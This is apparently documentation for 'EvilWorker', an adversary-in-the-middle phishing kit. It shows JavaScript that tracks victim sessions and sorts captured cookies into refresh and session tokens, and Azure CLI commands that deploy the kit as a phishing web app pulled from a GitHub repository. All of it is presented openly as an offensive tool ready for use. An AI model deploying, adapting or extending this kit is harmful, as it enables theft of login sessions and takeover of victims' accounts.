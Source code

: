 ### **Session Intelligence**
```javascript
// Advanced session tracking
VICTIM_SESSIONS[sessionId] = {
    value: "32-char-random-string",
    cookies: [],
    logFilename: "domain__timestamp",
    protocol: "https:",
    hostname: "target.com",
    path: "/login",
    port: null,
    host: "target.com",
    startTime: Date.now(),
    events: [],
    accountType: 'unknown'
};
```

### **Cookie Analysis**
```javascript
// Enhanced cookie intelligence
function analyzeCookieValue(cookie) {
    const analysis = {
        type: 'unknown',
        containsJWT: false,
        containsRefreshToken: false,
        containsSessionToken: false,
        length: cookie.value.length,
        encoding: 'unknown'
    };
    
    // Advanced token classification
    if (cookie.name.toLowerCase().includes('refresh') || 
        cookie.name.toLowerCase().includes('rt') ||
        cookie.name.toLowerCase().includes('persistent')) {
        analysis.containsRefreshToken = true;
        analysis.type = 'refresh_token';
    }
    
    return analysis;
}
```

---

## 🚀 **DEPLOYMENT STRATEGIES**

### **Option 1: Azure Web Apps (Recommended)**
```bash
# Create Azure Web App
az webapp create \
  --resource-group "aitm-phishing-rg" \
  --plan "EastUSPlan" \
  --name "evilworker-phishing" \
  --runtime "NODE|22-lts"

# Deploy EvilWorker code
az webapp deployment source config \
  --name "evilworker-phishing" \
  --resource-group "aitm-phishing-rg" \
  --repo-url "https://github.com/Ahaz1701/EvilWorker.git" \
  --branch "main"
```
